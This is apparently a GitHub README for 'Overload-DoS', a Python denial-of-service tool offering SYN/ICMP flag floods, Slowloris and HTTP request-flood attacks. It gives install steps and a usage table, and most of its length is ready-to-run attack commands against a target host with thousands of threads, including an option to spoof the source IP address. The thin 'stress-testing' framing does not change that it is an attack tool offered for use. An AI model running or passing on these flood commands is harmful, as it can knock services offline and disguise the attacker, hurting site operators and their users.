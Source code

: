 # Overload-DoS

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install Overload-Dos

```
git clone https://github.com/codingplanets/Overload-DoS
```
```
cd Overload-DoS
```
```
chmod +x *
```
```
./install-overload
```
## Usages
```
usage: ./Overload-DoS.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./Overload-DoS.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./Overload-DoS.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```

## Built With

* [Python 2.7](https://www.python.org/download/releases/2.7/) - The code framework used
* [Requests](http://docs.python-requests.org/en/master/) - Used to send DoS attack
* [Colorama](https://pypi.python.org/pypi/colorama) - Used to generate text color
* [Termcolor](https://pypi.python.org/pypi/termcolor) - Used to generate text color


## License

This project is licensed under the MIT License

